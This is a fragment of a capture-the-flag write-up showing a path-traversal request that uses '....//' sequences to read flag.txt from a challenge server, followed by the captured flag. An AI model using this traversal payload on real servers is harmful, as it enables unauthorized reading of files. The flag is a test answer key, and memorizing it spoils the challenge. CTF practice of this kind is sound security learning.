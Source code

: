 ```
http://159.65.198.12:3333/page?path=....//....//....//flag.txt
```

[![image.png](https://i.postimg.cc/1R2PMxC6/image.png)](https://postimg.cc/V5q3LhcL)

## Flag : 

```
DEFENSYS{pa7h_tr4v3rs4l_vu3ln_!!}
```
